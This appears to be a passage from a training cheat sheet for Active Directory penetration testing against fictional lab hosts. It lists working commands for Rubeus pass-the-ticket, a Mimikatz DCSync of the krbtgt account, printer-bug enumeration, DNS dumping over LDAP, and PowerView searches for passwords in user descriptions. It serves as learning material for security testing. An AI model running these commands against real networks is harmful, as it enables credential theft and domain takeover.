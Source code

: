 #### Requesting TGT and Performing PTT with DC01$ Machine Account
```PowerShell
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /<base64 certificate>=/ptt
```
Uses Rubeus to request a TGT and perform a pass-the-ticket attack using the machine account (/user:ACADEMY-EA-DC01$) of a Windows target. Performed from a Windows-based host.

#### Performing DCSync with Mimikatz
```PowerShell
mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt
```
Performs a DCSync attack using Mimikatz. Performed from a Windows-based host.
## Miscellaneous Misconfigurations

#### Enumerating for MS-PRN Printer Bug
```Shell
Import-Module .\SecurityAssessment.ps1
```
Used to import the module `Security Assessment.ps1`. Performed from a Windows-based host.

```PowerShell
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
SecurityAssessment.ps1 based tool used to enumerate a Windows target for `MS-PRN Printer bug`. Performed from a Windows-based host.

#### Using adidnsdump
```Shell
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5
```
Used to resolve all records in a DNS zone over `LDAP` from a Linux-based host.

```Shell
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
```
Used to resolve unknown records in a DNS zone by performing an `A query` (`-r`) from a Linux-based host.

#### Finding Passwords in the Description Field using Get-Domain User
```PowerShell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```
PowerView tool used to display the description field of select objects (`Select-Object`) on a target Windows domain from a Windows-based host.

#### Checking for PASSWD_NOTREQD Setting using Get-DomainUser
```PowerShell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```
PowerView tool used to check for the `PASSWD_NOTREQD` setting of select objects (`Select-Object`) on a target Windows domain from a Windows-based host.
